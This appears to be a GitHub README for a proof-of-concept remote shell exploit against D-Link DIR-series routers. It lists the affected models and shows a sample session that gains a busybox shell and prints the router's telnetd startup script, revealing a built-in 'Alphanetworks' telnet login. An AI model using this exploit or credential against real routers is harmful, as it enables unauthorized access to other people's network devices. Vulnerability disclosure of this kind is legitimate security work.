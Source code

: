 # dlink_815_shell_poc
Dlink 615/815 shell PoC

Tested on D-Link Version A 1.3

Works with:
- DIR-110
- DIR-412
- DIR-600
- DIR-615
- DIR-645 https://vuldb.com/?id.7843 (will add this in later... probably)
- DIR-815

## Example ##
```
root@kali:~# ./dlink_auth_rce.py -u http://10.0.0.1:8080
+--------------------------------------------------------------------------------+
| Welcome to D-Link Shell                                                        |
+--------------------------------------------------------------------------------+
| This is a limited shell that exploits piss poor programming.  I created this   |
| to give you a comfort zone and to emulate a real shell environment.  You will  |
| be limited to basic busybox commands.  Good luck and happy hunting.            |
|                                                                                |
| To quit type 'gtfo'                                                            |
+--------------------------------------------------------------------------------+

DIR-815# ls /etc/init0.d/
rcS
S80telnetd.sh
S65ddnsd.sh
S52wlan.sh
S51wlan.sh
S42pthrough.sh
S41inf.sh
S41event.sh
S41autowanv6.sh
S41autowan.sh
S40gpioevent.sh
S40event.sh
S21layout.sh

DIR-815# /bin/cat /etc/init0.d/S80telnetd.sh
#!/bin/sh
echo [$0]: $1 ... > /dev/console
if [ "$1" = "start" ]; then
	if [ -f "/usr/sbin/login" ]; then
		image_sign=`cat /etc/config/image_sign`
		telnetd -l /usr/sbin/login -u Alphanetworks:$image_sign -i br0 &
	else
		telnetd &
	fi
else
	killall telnetd
fi

DIR-815# gtfo
root@kali:~#
```

